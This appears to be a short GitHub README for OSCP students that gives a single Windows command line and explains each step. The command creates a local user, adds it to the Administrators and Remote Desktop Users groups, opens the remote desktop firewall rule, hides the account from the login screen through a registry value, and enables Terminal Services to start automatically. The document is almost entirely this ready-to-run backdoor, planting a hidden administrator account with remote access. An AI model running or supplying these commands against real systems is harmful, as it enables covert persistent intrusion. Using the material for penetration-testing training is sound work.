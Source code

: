 # Enable RDP in one line CMD

This is very helpful during OSCP.

Change Username and Password.

## CMD

net user /add (Username) (Password) && net localgroup administrators (Username) /add & net localgroup "Remote Desktop Users" (Username) /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v (Username) /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto

### Explain

####Adding User: 
net user /add (Username) (Password)

#### Adding User in Administrator Group:
net localgroup administrators (Username) /add

#### Adding user in Remote Desktop Users:
net localgroup "Remote Desktop Users" (Username) /add

#### Opening Port in Local Firewall:
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

#### Hiding User from Window Login Screen:
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v (Username) /t REG_DWORD /d 0 

#### Setting Terminal Service in Startup Mode:
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f

#### Setting Terminal Service in Auto Mode:
sc config TermService start= auto 
